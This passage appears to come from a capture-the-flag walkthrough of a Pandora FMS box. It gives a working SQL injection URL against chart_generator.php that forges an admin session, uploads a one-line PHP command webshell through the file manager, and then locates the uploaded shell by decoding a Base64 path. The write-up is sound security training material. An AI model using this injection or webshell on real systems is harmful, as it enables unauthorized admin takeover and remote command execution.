     
    
    http://localhost:8000/pandora_console/include/chart_generator.php?session_id=PayloadHere%27%20union%20select%20%271%27,%272%27,%27id_usuario|s:5:%22admin%22;%27%20--%20a => Pandora FMS Graph ( - )
    

URL decoded that looks like:

    
    
    PayloadHere' union select '1','2','id_usuario|s:5:"admin";' -- a
    

Effectively, this is querying the sessions table to find out what user I am,
and injecting one of data that makes the application think I’m the admin user.
If I do that, it actually sets a cookie that is the `PHPSESSID` for the admin
user. I can simply visit that url, and then reload the main page, and it says
I’m admin:

![image-20220519135812617](https://0xdfimages.gitlab.io/img/image-20220519135812617.png)

There’s a lot more options on the left hand menu as well:

![image-20220519135840970](https://0xdfimages.gitlab.io/img/image-20220519135840970.png)

#### Upload Webshell

I’ll go to the File manager page though “Admin tools” > “File Manager”, and
click the button to upload files. I’ll give it `0xdf.php`, a simple PHP
webshell:

    
    
    <?php system($_REQUEST['cmd']); ?>
    

It accepts it:

![image-20220519140526307](https://0xdfimages.gitlab.io/img/image-20220519140526307.png)

And the file shows up in the list of files, in red, with a warning when I
hover over it:

![image-20220519140554126](https://0xdfimages.gitlab.io/img/image-20220519140554126.png)

Clicking the link actually downloads the file, which isn’t what I want.

#### Find Webshell

The link to the file is
`/pandora_console/include/get_file.php?file=L3BhbmRvcmFfY29uc29sZS9pbWFnZXMvMHhkZi5waHA%3D&hash=fac31c21cdd95f26f4a11073d7828e2c`.
The `file` parameter looks like Base64, and it does decode to the file URL:

    
    
    daniel@pandora:/var/www/pandora/pandora_console$ echo "L3BhbmRvcmFfY29uc29sZS9pbWFnZXMvMHhkZi5waHA=" | base64 -d
    /pandora_console/images/0xdf.php
    
